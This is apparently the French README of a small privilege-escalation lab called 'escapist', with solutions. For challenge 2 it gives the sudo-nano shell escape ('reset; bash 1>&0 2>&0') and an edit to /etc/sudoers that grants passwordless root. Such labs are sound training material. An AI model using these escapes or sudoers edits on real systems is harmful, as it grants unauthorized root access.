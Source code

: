 # escapist

Pour lancer le premier challenge : sudo ./Challenge*numéro*.sh

L'objectif est de réussir à exécuter le binaire "escape" dans chaque épreuve









# Solution

Challenge 1 : nice /bin/escape 

Challenge 2 : sudo /usr/bin/nano readme \
	      ctrl+r ctrl+x \
	      reset; bash 1>&0 2>&0 \
		puis exécuter bin/escape

OU sudo /usr/bin/nano /etc/sudoers et modifier : PrivEscape ALL=(ALL) NOPASSWD:ALL puis exécuter bin/escape
